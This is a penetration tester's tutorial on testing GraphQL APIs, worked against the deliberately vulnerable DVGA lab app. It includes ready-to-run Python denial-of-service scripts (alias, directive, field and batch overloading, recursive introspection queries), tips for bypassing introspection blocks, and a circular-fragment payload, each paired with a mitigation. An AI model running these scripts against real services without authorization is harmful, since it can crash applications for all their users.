GraphQL is everywhere nowadays. I often see it in my penetration testing engagements, as GraphQL offers various advantages over REST API. While it may not be a direct replacement for REST, it's certainly an evolution in API design. In contrast to REST APIs, which rely on sending data to an endpoint through HTTP requests (think `GET /item/1`), GraphQL allows clients to request specific data through queries. This means that users can only retrieve the data they need, reducing the risk of unnecessary information disclosure and therefore enhancing performance.

From a security perspective, the different approach to data retrieval in GraphQL also introduces a whole new range of vulnerabilities, in addition to classic issues that have always plagued REST APIs (you know the ones: SQLi, IDOR, Lack of Authorization, and the like). These GraphQL-specific vulnerabilities are often the result of poor implementation of GraphQL in the app itself, and can be easily fixed if you know what to look for. Despite this, almost every GraphQL application I've tested has had more than one high-risk vulnerability. As testers, it's our responsibility to ensure our clients are made aware of the security issues their applications face. This article is going to cover just that - the security issues affecting GraphQL as well as their solutions.

But before we get into the nitty gritty - what is GraphQL anyway?
# A Crash Course in GraphQL

GraphQL is an open source data query and manipulation language for APIs. It was developed by Facebook in 2012, and only became open source in 2015 when Facebook released the [specification](https://spec.graphql.org/) detailing all of its rules, design principles, and standard practices. Today it's maintained by the [GraphQL Foundation.](https://graphql.org/foundation/)

When setting up a server that handles GraphQL queries and mutations, developers will often use a framework. This means that GraphQL implementations will vary based on which framework was used, as many frameworks are not secure by default. Each framework also has security pitfalls researchers should be aware of. A great reference is the [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix/) project, which shows what security features are supported by which GraphQL framework and whether they're enabled by default.

The schema is the core of GraphQL - it represents the type of data a client can query for. Once a schema is defined, clients can fetch information from it using specially crafted queries. Queries are defined by an operation type, a query name, a data structure and (optionally) arguments. There are three types of operations, which are defined at the beginning of the query:
- Queries are used for read-only operations, such as fetching data on a specific user.
- Mutations are used for data modification. An example would be mutation that allows the user to update their profile.
- Subscriptions are used for real-time communication between the server and client - this is done through a transport mechanism protocol such as a WebSocket.

Here's what a query looks like:
```
query GetDog {
	dogs(id: "1") {
		breed
		size
		age
	}
}
```
In this case, breed, size, and age are fields. Fields are attributes of objects that have a value. The argument specified for this query is one.
# Detecting & Fingerprinting GraphQL
We can detect whether an app is using GraphQL either by manually enumerating the web app we're testing or by specifically fuzzing for common GraphQL endpoints. There are wordlists such as [Daniel Miessler's GraphQL Discovery wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/graphql.txt) that are helpful for this:

```bash
$ ffuf -u http://localhost:5013/FUZZ -w graphql.txt -mc 400

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:5013/FUZZ
 :: Wordlist         : FUZZ: ./graphql.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 400
________________________________________________

[Status: 400, Size: 53, Words: 4, Lines: 1, Duration: 10ms]
    * FUZZ: graphiql

[Status: 400, Size: 53, Words: 4, Lines: 1, Duration: 6ms]
    * FUZZ: graphql
```

Alternatively, we can use [graphw00f](https://github.com/dolevf/graphw00f), which automatically checks for the most common endpoints and gives us additional output, including the version of GraphQL currently implemented:

```bash
$ python3 graphw00f.py -f -d -t http://localhost:5013

                +-------------------+
                |     graphw00f     |
                +-------------------+
                  ***            ***
                **                  **
              **                      **
    +--------------+              +--------------+
    |    Node X    |              |    Node Y    |
    +--------------+              +--------------+
                  ***            ***
                     **        **
                       **    **
                    +------------+
                    |   Node Z   |
                    +------------+

                graphw00f - v1.1.12
          The fingerprinting tool for GraphQL
           Dolev Farhi <dolev@lethalbit.com>
  
[*] Checking http://localhost:5013/
[*] Checking http://localhost:5013/graphql
[!] Found GraphQL at http://localhost:5013/graphql
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md                                                                    
[!] Technologies: Python                                                                                                                                                                     
[!] Homepage: https://graphene-python.org                                                                                                                                                    
[*] Completed.
```

Enumeration is key when testing. Always enumerate!

## How is GraphQL detected?

Tools that detect GraphQL use something known as the GraphQL “universal query”. This is a query to which GraphQL will always respond the same way, if it exists. The universal query looks like this:
```
query{__typename}
```

This works because the field `__typename` is included in every GraphQL specification. If GraphQL exists on the endpoint we sent this query to, the following string will always be included in the response:
```
{"data": {"__typename": "query"}}
```

# Testing GraphQL
Now that we've covered the fundamentals, we can look into the vulnerabilities that plague GraphQL APIs. As a small tangent, I think it's important to consider how inspecting a technology from a “developers” perspective can help us become better security researchers. Developers build the apps we are testing - if we don't think about _how_ they built it, we limit our testing capabilities and our growth.

For the sake of brevity (the author says, proceeding to write three thousand words), I'll only talk about GraphQL-specific issues, however it's important to keep in mind that many REST API and GraphQL vulnerabilities do overlap. Examples include SQL injection, command injection, IDOR, and more. These vulnerabilities aren't caused by an insecure implementation of GraphQL itself, so I won't be talking about them in this article.

There are three main vulnerability categories that come up in GraphQL implementations:
- Information disclosure vulnerability
- Denial of Service (DoS) vulnerabilities
- Cross-Site Request Forgery (CSRF) vulnerabilities

**NOTE**: I will be using [DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) for all examples in this article.
## Testing for Information Disclosure

Information disclosure vulnerabilities are silent but deadly killers. If not implemented correctly, GraphQL will give the attacker massive amounts of information about the backend.

### GraphQL Introspection 

Introspection in inherently not a weakness, but a feature of GraphQL. It allows developers to query the schema for information on queries or mutations. The problem arises when introspection stays enabled in a production environment, making it very easy for an attacker to see all of the queries and mutations implemented in the app.

To test whether introspection is enabled, we can send the following query:
```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...
InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...
InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues
(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on 
__InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name 
ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

The response should contain the full schema. If the request doesn't go through, it's worth testing for potential bypasses. Possible techniques include:
- Sending the query as a GET request → GraphQL does natively support GET requests. Having said that, developers may specifically block keywords for POST requests, not accounting for the potential bypass
- Adding a comma, new line or space after the `__schema` keyword → if the application is blocking the introspection query by checking for the `__schema{` keyword, this is an easy way to bypass it - GraphQL won't count this as bad syntax either, so the request will go through.

### The GraphQL Interface

GraphQL has an IDE (Integrated Developer Environment) called `GraphiQL` that allows the developer to construct queries in a user-friendly interface. GraphiQL is usually found in paths such as `/graphiql` or `/console`. It can also be found at the regular GraphQL endpoint by sending an `Accept: html` header, which will return the IDE.


### GraphQL Field Suggestions

This is another example of a feature that's useful in a development environment but risky in a production one. GraphQL will by default suggest field names if a wrong one is sent in a query. This allows for quick typo fixes, but it also allows an attacker to brute-force potential field names. Any hidden endpoints can be discovered via this method. 

Even if introspection is disabled, field suggestions can help us recover the schema. This is how nikitastupin's tool [clairvoyance](https://github.com/nikitastupin/clairvoyance) works. 

### GraphQL Insecure Error Handling

Errors are handled a little bit differently in GraphQL, compared to REST errors. The response of each query will have either the `data` or `error` field, depending on if the query is successful. In the case of errors, they are often verbose by default. The error field will display any errors thrown in the resolver and the location of the error itself. It's a system designed for developers in mind, however, once the code goes into production, sensitive information is divulged. I very often see a stack trace as well. You can figure out which implementation of GraphQL is used almost instantly through the stack trace.

From this stack trace, we can see that DVGA uses Flask.

The article [GraphQL Error Handling Best Practices for Security](https://escape.tech/blog/graphql-error-handling-a-security-pov/) comprehensively covers error handling best practices. I highly suggest checking it out. 

## Testing for Denial of Service

For testing the viability of various GraphQL DoS attacks, I always start out with graphql-cop. Not only does this tool automate the boring stuff with python (haha book reference), it lets us see an overview of potential vulnerabilities. 
```bash
$ python3 graphql-cop.py -t http://localhost:5013/graphql
[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed
[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query
[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field
[HIGH] Introspection-based Circular Query - Circular-query using Introspection
[HIGH] Array-based Query Batching - Batch queries allowed with 10+ simultaneous queries
```
**NOTE**: I've redacted all of the non-DoS vulnerabilities for now.

Once we have a list, we can go through it manually to make sure there is an impact and that the vulnerabilities are exploitable. For further streamlining, I've created a separate script (by copying a couple of functions from graphql-cop - it's less that I created the scripts and more that I Frankensteined parts of graphql-cop together) for each of the DoS attacks. Whenever I test for false positives, I fiddle around with the script to adjust it to the limitations of the app I'm testing. 

There are a couple of solve-all mitigation techniques that can be used to prevent DoS attacks. The tool [https://github.com/slicknode/graphql-query-complexity](https://github.com/slicknode/graphql-query-complexity) is able to analyze the complexity of a GraphQL query, giving the server the option to reject it if it's too system-intensive. Implementing strict rate-limiting is also extremely important, as most DoS attacks will be blocked before they even begin.

### Alias Overloading

Each GraphQL operation's result can be given a name (or alias). This allows for the same operation to be used multiple times in one request.

Issues arise when GraphQL doesn't limit the maximum number of aliases a user can send in a single request. If too many system-intense queries are sent out at once, repeatedly, this will naturally overwhelm and slow down the system, leading to a complete app-wide halt. This not only affects the user that's sending the requests, but also anyone else using the app, as the app tries (very, very hard) to process the many operations it's receiving on the server-side. 

To test for this vulnerability, I use this script:
```python
import requests
import time

# function copied from graphql-cop
def graph_query(url, proxies, headers, operation='query', payload={}, batch=False):
  if batch:
    data = []
    for _ in range(10):
      data.append({operation:payload})
  else:
    data = {operation:payload, "operationName":"cop"}
  try:
    response = requests.post(url,
                            headers=headers,
                            cookies=None,
                            verify=False,
                            allow_redirects=True,
                            timeout=60,
                            proxies=proxies,
                            json=data)
    return response
  except Exception:
    return {}

aliases = ''
url = '[URL here]'

headers = {
    "Authorization":"[Authorization header value]",
    "User-Agent":"graphql-cop/1.12"
}
proxy = {
    'http':  'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

for i in range(0, 10000): # fiddle with this number for optimal results
    aliases += 'alias{}:__typename \n'.format(i)

gql_response = graph_query(url, proxies=proxy, headers=headers, payload='query cop { ' + aliases + ' }')
```

Best practice states that anything over a hundred aliases is excessive. Unless it's a very specific use-case, it's safe to block all requests that have more aliases than that. This might not stop the risk completely, however it will significantly limit the potential attack surface.
### Directive Overloading

Directives are used to manipulate the execution of a query. According to the [docs](https://graphql.org/learn/queries/), there are two directives implemented in the core GraphQL specification: `@skip(if: Boolean)` and `@include(if: Boolean)`. These allow the server to skip or include certain fields in the output based on the argument given. The caveat is that GraphQL will allow you to use the same directives multiple times in the same request. You might see where this is going. 

By overloading the request with a massive amount of directives, the server will check each directive consecutively. Sending many of these system-intensive requests back-to-back will naturally lead the server to a DoS state. When testing for this vulnerability, the actual directive does not need to exist. If vulnerable, the server will still check each instance of the directive and let you know that it couldn't find the directive being referenced. 

To test for this vulnerability, I use this script:
```python
import requests
import time

# function copied from graphql-cop
def graph_query(url, proxies, headers, operation='query', payload={}, batch=False):
  if batch:
    data = []
    for _ in range(10):
      data.append({operation:payload})
  else:
    data = {operation:payload, "operationName":"cop"}
  try:
    response = requests.post(url,
                            headers=headers,
                            cookies=None,
                            verify=False,
                            allow_redirects=True,
                            timeout=60,
                            proxies=proxies,
                            json=data)
    return response
  except Exception:
    return {}

query = '__typename' + '@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa' * 500 # fiddle with this number for optimal results
url = '[URL here]'

headers = {
    "Authorization":"[Authorization header value]",
    "User-Agent":"graphql-cop/1.12"
}
proxy = {
    'http':  'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

gql_response = graph_query(url, proxies=proxy, headers=headers, payload='query cop { ' + query + ' }')
```

Similar to alias overloading, best practice advises setting a limit to the maximum number of directives in one request. 
### Field Duplication
Fields can be used repeatedly in the same query. The server processes each field individually - this means sending a bunch of fields is very system-intensive. To get a DoS, we essentially need to overload the query with fields.

To test for this vulnerability, I use this script:
```python
import requests
import time

# function copied from graphql-cop
def graph_query(url, proxies, headers, operation='query', payload={}, batch=False):
  if batch:
    data = []
    for _ in range(10):
      data.append({operation:payload})
  else:
    data = {operation:payload, "operationName":"cop"}
  try:
    response = requests.post(url,
                            headers=headers,
                            cookies=None,
                            verify=False,
                            allow_redirects=True,
                            timeout=60,
                            proxies=proxies,
                            json=data)
    return response
  except Exception:
    return {}

payload = ''

url = '[URL here]'

headers = {
    "Authorization":"[Authorization header value]",
    "User-Agent":"graphql-cop/1.12"
}
proxy = {
    'http':  'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

payload += '__typename \n' * 3000

gql_response = graph_query(url, proxies=proxy, headers=headers, payload='query cop { ' + payload + ' }')
```


> After seeing three fairly similar vulnerabilities, you might be noticing a pattern. These vulnerabilities tend to come in groups - if the maximum number of aliases isn't defined, there's a high chance that field duplication will be an issue as well. This means that testers should be extra vigilant when testing GraphQL, as one vulnerability often promises more.

### Deep Recursion /  Circular-Query via Introspection

As the name suggests, recursion in GraphQL involves two types which reference each other, allowing for a seemingly infinite query. The project DVGA has a great visualization of this:


The paste object references the owner, the owner references paste, paste references owner, and so forth. A valid query might look something like this:
```zsh
query {
  pastes {
    owner {
      pastes {
      	owner {
      		...
     }
  }
}
```

Because of the specific nature of this vulnerability, there are multiple ways to go about exploiting it. A more catch-all way is to use types implemented in the core functionality of GraphQL. These types are not very system-intensive on their own, however they can be used to write a dangerous deep recursion query if the max depth allows for it. 

An alternative is looking for potential candidates for this attack through [GraphQL Voyager](https://github.com/graphql-kit/graphql-voyager). Assuming introspection or field suggestions are enabled, the schema can be acquired pretty painlessly. We can then sift through the existing types and look for anything that resembles the above image. Bonus points if the types themselves are system-intensive. ;)

To test for this vulnerability, I use this script:
```python
import requests
import time

# function copied from graphql-cop
def graph_query(url, proxies, headers, operation='query', payload={}, batch=False):
  if batch:
    data = []
    for _ in range(10):
      data.append({operation:payload})
  else:
    data = {operation:payload, "operationName":"cop"}
  try:
    response = requests.post(url,
                            headers=headers,
                            cookies=None,
                            verify=False,
                            allow_redirects=True,
                            timeout=60,
                            proxies=proxies,
                            json=data)
    return response
  except Exception:
    return {}

query = '__schema { types {' + 'fields { type { fields { type { fields { type { fields { ' * 100 + 'name' + ' } } } } } } }' * 100 + '} }'

url = '[URL here]'

headers = {
    "Authorization":"[Authorization header value]",
    "User-Agent":"graphql-cop/1.12"
}
proxy = {
    'http':  'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

gql_response = graph_query(url, proxies=proxy, headers=headers, payload='query cop { ' + query + ' }')
```

The best mitigation for this attack is setting a reasonable `max_depth`, which defines how deep a query can get. This acts as a safeguard, as the server won't respond to a query exceeding the depth limit.

### Circular Fragments

A fragment in GraphQL is a group of fields that can be reused in any query or mutation. An example would be a group of fields such as:
```bash
fragment DogInfo on Dog {
	breed
	size
	age
}
```

Fragments are controlled by the client, so we can define them however we would like. If we ever decide to redefine the fragment, the query response will also change. In this way we're creating a shorthand for the fields we often use together. 

A potential vulnerability arises when you consider that you can use a fragment inside of a fragment. This may seem confusing at first, but consider the following example:

```bash
fragment DogInfo on Dog {
	breed
	size
	age
	...OtherDogInfo
}

fragment OtherDogInfo on Dog {
	favouriteFood
	allergies
	...DogInfo
}

query GetDog {
	dogs(id: "1") {
		...DogInfo
	}
}
```
Since the fragments depend on each other, calling GetDog would result in an infinite call stack if proper protections aren't put in place. GraphQL servers should be configured to automatically reject queries with cyclic fragment references, but there's an occasional exception. This technique is **VERY** effective (and deadly) when it does work, so it's extremely important to only test for it in a staging/development environment, unless the client is aware of the risks. If it does go through it _will_ crash the application, so exercising caution is warranted. 

Because each project has its own set of queries, it's impossible to write a catch-all script to test for it. Checking the schema for possible queries will allow us to write our own circular fragment client-side. This way we can manually test whether the application will block the request.

To mitigate this issue, it's crucial to include tests for and protection against fragment cycles on the middleware level. A good tool for this is GraphQL ESLint, which has the `no-fragment-cycles` operations rule. 

### Array-based Query Batching

GraphQL allows for multiple queries in one request, referred to in the specification as a “batched query”. GraphQL processes each query one after the other. If there's no limitation on the number of queries that can be batched together, the requests can get out of hand. This is the main idea of the attack: batch together as many queries as possible and see what happens!

It's also worth noting that this attack is much more effective should you find a query that takes a long time to execute on its own. I use the following script to generate a batched query - replacing the payload if there is a better candidate:

```python
import requests
import time

# function copied from graphql-cop
def graph_query(url, proxies, headers, operation='query', payload={}, batch=False):
  if batch:
    data = []
    for _ in range(2500):
      data.append({operation:payload})
  else:
    data = {operation:payload, "operationName":"cop"}
  try:
    response = requests.post(url,
                            headers=headers,
                            cookies=None,
                            verify=False,
                            allow_redirects=True,
                            timeout=60,
                            proxies=proxies,
                            json=data)
    return response
  except Exception:
    return {}

url = '[URL here]'

headers = {
    "Authorization":"[Authorization header value]",
    "User-Agent":"graphql-cop/1.12"
}
proxy = {
    'http':  'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

gql_response = graph_query(url, proxies=proxy, headers=headers, payload='query cop { __typename }', batch=True)
```
